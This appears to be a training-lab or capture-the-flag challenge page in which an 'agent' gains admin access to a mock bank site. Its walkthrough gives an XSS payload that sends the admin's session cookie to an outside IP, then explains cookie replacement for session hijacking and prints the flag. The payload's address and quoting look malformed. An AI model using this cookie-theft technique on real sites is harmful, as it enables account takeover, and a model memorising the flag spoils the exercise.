 # 📦 Unsafe Deposit Box - L11 C08

Agent 707, we've been working with the bank to try and make their website more secure, which will hopefully prevent the Bulldogs getting access.

As part of our penetration testing we've found a page which might be vulnerable to XSS. It's the page you use to request further information about safety deposit boxes. You need to be logged in as a standard bank customer to get to that page, but we think you can use XSS to change the access level to admin. Give it a try.

**Tip:** Get admin access to the site to get the flag.

<details><summary>

## Need a hint?</summary>

> 💡 Hint: You must find a way to get the administrator's cookie sent to your web server address, then create the cookie with the right values and refresh the page for access.

</details>

<details><summary>

## Step by Step</summary>

- Enter `<script>document.location='?data='http://126.34.285.59:726%2bdocument.cookie</script>` in the name field of the form and hit submit
- You should get a message at the top telling you that the admin cookie is `32f35nh98gf3hy9085g398g35y98f43h9f3g234f27w624`
- Head to the cookies tab in the developer tools
- Replace the value of the `deposit_user` cookie with the obtained admin cookie and refresh the site
- This will give you the flag

`flag: x3kUszVcPCsT0ai5flui`

</details>
